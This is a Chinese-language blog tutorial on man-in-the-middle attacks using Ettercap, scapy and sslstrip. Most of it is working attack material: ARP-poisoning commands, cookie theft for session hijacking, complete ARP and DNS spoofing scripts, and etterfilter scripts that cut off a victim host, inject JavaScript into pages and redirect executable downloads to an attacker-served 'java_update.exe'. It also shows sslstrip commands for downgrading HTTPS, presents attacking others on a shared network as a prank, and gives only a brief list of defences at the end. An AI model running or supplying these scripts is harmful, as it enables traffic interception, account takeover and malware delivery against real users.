


# [中间人攻击之ettercap嗅探](https://www.cnblogs.com/lingerhk/p/4094040.html)

## 中间人攻击：

​    中间人攻击（Man-in-the-MiddleAttack，简称“MITM攻击”）是一种“间接”的入侵攻击，这种攻击模式是通过各种技术手段将受入侵者控制的一台计算机虚拟放置在网络连接中的两台通信计算机之间，这台计算机就称为“中间人”。

## Ettercap简介：

> ​     Ettercap is a comprehensive suite for man in the middle attacks. It features sniffing of live connections, content filtering on the fly and many other interesting tricks. It supports active and passive dissection of many protocols and includes many features for network and host analysis.

ps:摘自Ettercap官网主页，我就不废话了，是款十分NB的神器。。。在最新的SecTools.Org的Top 125 Network Security Tools排行榜中，Ettercap排行第16位。

​	项目官网：http://ettercap.github.io/ettercap/index.html

　Github地址：https://github.com/Ettercap

　　 今天要将的主要是基于Ettercap的中间人攻击，在它的选项栏里有四种：ARP缓存投毒，ICMP重定向，端口监听，DHCP欺骗。在这里要介绍一下ARP欺骗、DNS欺骗、会话劫持、密码嗅探以及SSL加密的密码嗅探。其实Ettercap的功能是很强大的，从它的插件就可以看到功能有：发现可疑ARP活动、ARP响应、DNS欺骗、Dos攻击、发现连接（交换环境）、发现Ettercap活动、列出子网未使用的IP、隔离主机、MAC泛洪、ssltrip等。

##  0x01 ARP欺骗与DNS欺骗

> 　　　　中间人攻击常见的两种方法：ARP欺骗、DNS欺骗。

　　**ARP欺骗：** 在实现TCP/IP协议的网络环境下，一个ip包走到哪里，要怎么走是靠路由表定义，但是，当ip包到达该网络后，哪台机器响应这个ip包却是靠该ip包中所包含的硬件mac地址来识别。也就是说，只有机器的硬件mac地址和该ip包中的硬件mac地址相同的机器才会应答这个ip包，因为在网络中，每一台主机都会有发送ip包的时候，所以，在每台主机的内存中，都有一个 arp--硬件mac 的转换表。通常是动态的转换表（该arp表可以手工添加静态条目）。也就是说，该对应表会被主机在一定的时间间隔后刷新。这个时间间隔就是ARP高速缓存的超时时间。通常主机在发送一个ip包之前，它要到该转换表中寻找和ip包对应的硬件mac地址，如果没有找到，该主机就发送一个ARP广播包，于是，主机刷新自己的ARP缓存。然后发出该ip包。在此推荐FB上的一篇文章: [中间人攻击-ARP毒化](http://www.freebuf.com/articles/system/5157.html)

　　**DNS欺骗：** 目标将其DNS请求发送到攻击者这里，然后攻击者伪造DNS响应，将正确的IP地址替换为其他IP，之后你就登陆了这个攻击者指定的IP，而攻击者早就在这个IP中安排好了一个伪造的网站如某银行网站，从而骗取用户输入他们想得到的信息，如银行账号及密码等，这可以看作一种网络钓鱼攻击的一种方式。对于个人用户来说，要防范DNS劫持应该注意不点击不明的连接、不去来历不明的网站、不要在小网站进行网上交易，最重要的一点是记清你想去网站的域名，当然，你还可以把你常去的一些涉及到机密信息提交的网站的IP地址记下来，需要时直接输入IP地址登录。在此还推荐FB上的一篇文章: [中间人攻击-DNS欺骗](http://www.freebuf.com/articles/system/5265.html)

## 0x02 中间人攻击

　　在大多数正常的网络环境下，要想获得局域网内其他主机的流量，使用ARP欺骗是很好的方式，除非是自己搭建的网络环境。基于ARP欺骗的中间人攻击是一种很常见的手段。下面以Ettercap的使用为例，来进行展示。

　　首先介绍一下Ettercap的使用方法，英文比较简单，这里就不翻译了，直接列出它的帮助说明：

```bash
Usage: ettercap [OPTIONS] [TARGET1] [TARGET2]

TARGET is in the format MAC/IP/PORTs (see the man for further detail)

Sniffing and Attack options:
  -M, --mitm <METHOD:ARGS   perform a mitm attack
  -o, --only-mitm             don't sniff, only perform the mitm attack
  -b, --broadcast             sniff packets destined to broadcast
  -B, --bridge <IFACE       use bridged sniff (needs 2 ifaces)
  -p, --nopromisc             do not put the iface in promisc mode
  -S, --nosslmitm             do not forge SSL certificates
  -u, --unoffensive           do not forward packets
  -r, --read <file          read data from pcapfile <file
  -f, --pcapfilter <string  set the pcap filter <string
  -R, --reversed              use reversed TARGET matching
  -t, --proto <proto        sniff only this proto (default is all)
      --certificate <file   certificate file to use for SSL MiTM
      --private-key <file   private key file to use for SSL MiTM

User Interface Type:
  -T, --text                  use text only GUI
       -q, --quiet                 do not display packet contents
       -s, --script <CMD         issue these commands to the GUI
  -C, --curses                use curses GUI
  -D, --daemon                daemonize ettercap (no GUI)
  -G, --gtk                   use GTK+ GUI

Logging options:
  -w, --write <file         write sniffed data to pcapfile <file
  -L, --log <logfile        log all the traffic to this <logfile
  -l, --log-info <logfile   log only passive infos to this <logfile
  -m, --log-msg <logfile    log all the messages to this <logfile
  -c, --compress              use gzip compression on log files

Visualization options:
  -d, --dns                   resolves ip addresses into hostnames
  -V, --visual <format      set the visualization format
  -e, --regex <regex        visualize only packets matching this regex
  -E, --ext-headers           print extended header for every pck
  -Q, --superquiet            do not display user and password

General options:
  -i, --iface <iface        use this network interface
  -I, --liface                show all the network interfaces
  -Y, --secondary <ifaces   list of secondary network interfaces
  -n, --netmask <netmask    force this <netmaskon iface
  -A, --address <address    force this local <addresson iface
  -P, --plugin <plugin      launch this <plugin
  -F, --filter <file        load the filter <file(content filter)
  -z, --silent                do not perform the initial ARP scan
  -j, --load-hosts <file    load the hosts list from <file
  -k, --save-hosts <file    save the hosts list to <file
  -W, --wifi-key <wkey      use this key to decrypt wifi packets (wep or wpa)
  -a, --config <config      use the alterative config file <config

Standard options:
  -v, --version               prints the version and exit
  -h, --help 
```

### ARP欺骗之会话劫持：

```bash
ettercap -i eth0 -T -M arp:remote /10.0.0.1/ // 欺骗局域网内所有主机
ettercap -i eth0 -T -M arp:remote /10.0.0.1/ /10.0.0.12/ 欺骗IP为10.0.0.12的主机
```

　　

　　同时使用tcpdump抓包（当然也可以使用wireshark实时抓包并显示，但对本机压力比较大，建议使用tcpdump抓包，完成后再用wireshark显示）：

```shell
tcpdump -i eth0
```

　　

　　经过一段时间的抓包之后就可以停止了。打开wireshark分析捕获到的数据包分析，使用过滤语法，找出含有cookies的数据包：

　　　　

　　复制出cookies的值，并在浏览器中利用，这里推荐一款好用的cooikes利用工具cookie-injecting-tools（地址：https://github.com/lfzark/cookie-injecting-tools）。利用成功后，刷新页面，就可以进入到被人的主页和网盘了：

  

### DNS欺骗：

　　使用ettercap进行的DNS欺骗是使用了它的一个插件，同时结合ARP欺骗，就可以达到很好的欺骗效果。这里不再重复介绍了。重点是下面使用python实现的ARP欺骗和DNS欺骗：

```shell
#!/usr/bin/python# arp-poisoning
 
import sys
from scapy.all import sniff, sendp, ARP, Ether
 
if len(sys.argv) < 2:
    print sys.argv[0] + " <iface>"
    sys.exit(0)
def arp_poison_callback(packet):
    # Got ARP request?
    if packet[ARP].op == 1:
        answer = Ether(dst=packet[ARP].hwsrc) / ARP()
        answer[ARP].op = "is-at"
        answer[ARP].hwdst = packet[ARP].hwsrc
        answer[ARP].psrc = packet[ARP].pdst
        answer[ARP].pdst = packet[ARP].psrc
 
        print "Fooling " + packet[ARP].psrc + " that " + \
              packet[ARP].pdst + " is me"
        sendp(answer, iface=sys.argv[1])
 
sniff(prn=arp_poison_callback,
      filter="arp",
      iface=sys.argv[1],
      store=0)
 
```

 

```bash
#!/usr/bin/env python
# dns-spoofing
#
# A simple DNS spoofing script
# It's batter with ARP-Spoofing
# and delete the local hosts file
# at same time.
# The hosts-file like this:
# 123.12.23.121 www.google.com
#
 
import sys
import getopt
import scapy.all as scapy
 
dev = "eth0"
filter = "udp port 53"
file = None
dns_map = {}
 
def handle_packet(packet):
    ip = packet.getlayer(scapy.IP)
    udp = packet.getlayer(scapy.UDP)
    dns = packet.getlayer(scapy.DNS)
 
    # standard (a record) dns query
    if dns.qr == 0 and dns.opcode == 0:
        queried_host = dns.qd.qname[:-1]
        resolved_ip = None
 
        if dns_map.get(queried_host):
            resolved_ip = dns_map.get(queried_host)
        elif dns_map.get('*'):
            resolved_ip = dns_map.get('*')
         
        if resolved_ip:
            dns_answer = scapy.DNSRR(rrname=queried_host + '.',
                                     ttl = 330,
                                     type="A",
                                     rclass="IN",
                                     rdata=resolved_ip)
            dns_reply = scapy.IP(src=ip.dst, dst=ip.src) / \
                    scapy.UDP(sport=udp.dport,dport=udp.sport) / \
                    scapy.DNS(
                        id = dns.id,
                        qr = 1,
                        aa = 0,
                        rcode = 0,
                        qd = dns.qd,
                        an = dns_answer
                    )
            print "Send %s has %s to %s" % (queried_host,resolved_ip,ip.src)
            scapy.send(dns_reply, iface=dev)
 
def usage():
    print sys.argv[0] + ' -f <hosts-file>  -i <dev>'
    sys.exit(1)
 
def parse_host_file(file):
    for line in open(file):
        line  = line.rstrip('\n')
 
        if line:
            (ip, host) = line.split()
            dns_map[host] = ip
try:
    cmd_opts = 'f:i:'
    opts, args = getopt.getopt(sys.argv[1:], cmd_opts)
except getopt.GetoptError:
    usage()
 
for opt in opts:
    if opt[0] == '-i':
        dev = opt[1]
    elif opt[0] == '-f':
        file = opt[1]
    else:
        usage()
 
if file:
    parse_host_file(file)
else:
    usage()
 
print "Spoofing DNS requests on %s" % dev
scapy.sniff(iface=dev, filter=filter, prn=handle_packet)
```
<span style="font-size: 15px;">　　上面的两个脚本的核心之处是使用了scapy（http://www.secdev.org/projects/scapy/doc/usage.html#starting-scapy）这个网络库，其功能十分的强大，使用简介，基本只需几行代码就可以进行特定的攻击，有时间要好好研究研究。</span>

### Ettercap的包过滤：

　　Ettercap的包过滤是一个比较好玩的功能了。再结合一点钓鱼技术的话，危害就比较大了。下面简单介绍几种过滤实例：

　　Ettercap目录下也自带了一些过滤规则：

　　

　　在该目录下的etter.filter.examples文件里写了一些常用的过滤脚本:

　　

　　当然,更多使用说明可以查看一下man 手册: man etterfilter.里面对所有的过滤使用的函数都有详细的说明.下面举例:

#### (1)  kill掉某一主机:

　　当你在心致勃勃地看片的时候,后面几个2b正在猛LOL,搞得看片跟看PPT一样,这个时候你是不是很不爽?是不是想揍他们一顿?好吧.我只想做一个安静的美男子,是时候kill他们了. 使用的过滤脚本为etter.filter.kill,如下:


```bash
 if (ip.src == '10.0.0.16') {
      # sent the RST to both source and dest
      kill();
      # don't even forward the packet
      drop();
      msg("HaHa! a 2b(ip:10.0.0.16) has killed...\n");
 }
```

　　编译成ettercap可以识别的二进制的二进制文件:


　　使用ettercap加载此脚本(-q 安静模式,即不显示数据包信息):


　　可以看到执行的效果:


#### (2) 替换网页的图片:

　　貌似上面的恶搞还不爽,那就把他浏览网页时的图片换掉试试,使用的脚本是etter.filter.images,如下

```bash
if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!"); 
      # note: replacement string is same length as original string
      msg("zapped Accept-Encoding!\n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("img src=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   replace("IMG SRC=", "img src=\"http://www.iyi8.com/uploadfile/2014/0921/20140921113722651.jpg\" ");
   msg("Filter Ran.\n");
}
```

#### (3) JavaSproit注入:

　　技术有限,这里就简单的弹个窗吧 :(　使用的脚本是etter.filter.alert：

```bash
if (ip.proto == TCP && tcp.dst == 80) {
    if (search(DATA.data, "Accept-Encoding")) {
           replace("Accept-Encoding", "Accept-Rubbish!");
           msg("zapped Accept-Encoding!\n");
    }
}
if (ip.proto == TCP && tcp.src == 80) {
    if (search(DATA.data, "<body")) {
        replace("<head","<head<script type="text/javascript"alert('just for a test!');</script");
        replace("<HEAD","<HEAD<script type="text/javascript"alert('just for a test');</script");
        msg("Filter run!...Exploit code injected ok!\n");
    }
}
```

#### (4)替换URL

```bash
# replace rmccurdy with your website
# replace the url with what ever exe you like

if (ip.proto == TCP && tcp.dst == 80) {
   if (search(DATA.data, "Accept-Encoding")) {
      replace("Accept-Encoding", "Accept-Rubbish!");
      # note: replacement string is same length as original string
      msg("zapped Accept-Encoding!n");
   }
}
if (ip.proto == TCP && tcp.src == 80) {
   replace("keep-alive", "close" ");
   replace("Keep-Alive", "close" ");
}

if (ip.proto == TCP && search(DATA.data, ": application") ){
   # enable for logging log(DECODED.data, "/tmp/log.log");
   msg("found EXEn");
   # "Win32" is the first part of the exe example:
   # if the EXE started with "this program must be run in MSDOS mode" you could search for MSDOS etc ..
   if (search(DATA.data, "Win32")) {
      msg("doing nothingn");
   } else {
      replace("200 OK", "301 Moved Permanently Location: http://127.0.0.1/java_update.exe ");
      msg("redirect successn");
   }
}
```

## 0x03 SSL密码嗅探

　　对SSL流量的嗅探，可以使用sslstrip这个工具，它的原理就是把所有的https流量降级为http流量。相当于一个中间人的角色，它与服务器建立正常的https廉洁，而与浏览器则使用http连接。使用时需要本机开启流量转发，将80端口的http流量同时转发到10000端口上，在10000端口上使用sslstrip来监听即可：

```bash
# echo 1 > /proc/sys/net/ipv4/ip_forward
# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000
# sslstrip -l 10000
```

## 0X04 防范MITM攻击的常用方法

1. 将一些机密信息进行加密后再传输，这样即使被“中间人”截取也难以破解。

2. 通过设备或IP异常检测。如用户以前从未使用某个设备或IP访问系统。

3. 通过设备或IP频率检测：如单一的设备或IP同时访问大量的用户帐号。

3. 进行带外认证，具体过程是：系统进行实时的自动电话回叫，将二次PIN码发送至SMS（短信网关），短信网关再转发给用户，用户收到后，再将二次PIN码发送到短信网关，以确认是否是真的用户。